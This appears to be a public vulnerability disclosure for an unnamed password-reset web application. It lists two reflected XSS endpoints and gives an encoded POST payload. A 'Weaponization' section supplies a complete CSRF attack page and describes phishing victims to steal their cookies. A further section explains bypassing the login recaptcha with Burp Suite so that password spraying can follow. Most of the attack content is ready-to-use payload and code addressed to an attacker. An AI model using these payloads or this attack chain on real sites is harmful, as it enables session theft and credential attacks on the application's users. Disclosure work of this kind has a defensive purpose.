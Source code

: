 Vendor was emailed several times to fix this, no replies. 90 days was provided to fix the issue from my first email.

I was unable to view the version of this application. However, here is a list of vulnerabilities for the application:

## Reflected XSS

I found 2 XSS Vulnerabilites on the following URLs:

```
PasswordReset/ChangePass/ChangeThePass
PasswordReset/Reset/Authenticate
```

You may use the following payload as a POST request to the URL to reflect the contents of recaptcha-response. Please change the domain name to the domain you are targetting.

```
command=Next&Username=%24dc1&DomainName=xxxx.xxxx&ReCaptchaPublicKey=6LxOW5_v5AH39Tex8cBG4b57&g-recaptcha-response=%3c%73%76%67%20%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%31%29%3e&HomeUrl=%2FPasswordReset&X-Requested-With=XMLHttpRequest
```

### Weaponization

To abuse these POST Request Reflected XSS, you may pair it with a CSRF attack.

Create a page on your domain that you control with the following contents:
- Note: Change the form action URL to the target, and DomainName variable.

```js
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.com/PasswordReset/Reset/Authenticate" method="POST">
      <input type="hidden" name="command" value="Next" />
      <input type="hidden" name="Username" value="&#36;dc1" />
      <input type="hidden" name="DomainName" value="ad&#46;&#46;" />
      <input type="hidden" name="ReCaptchaPublicKey" value="6LcgSVkaAAdOW5&#95;v5A19Tgfx68cB5b57" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="<PAYLOAD>" />
      <input type="hidden" name="HomeUrl" value="&#47;PasswordReset" />
      <input type="hidden" name="X&#45;Requested&#45;With" value="XMLHttpRequest" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Anything in the recaptcha response get's reflected. So you will send a phishing link to your victim to your website which will redirect the post request to the website, thus grabbing it's cookies.

I will leave it up to your imagination to do what you'd like with your payload. :)

## Recaptcha Bypass

Create a Login request, capture it in Burpsuite. Change the password or username in the post request and re-send it. Additionally, you may change the re-captcha response to whatever you'd like, meaning the server doesn't actually check it. This is great for password spraying for once you've done username enumeration.

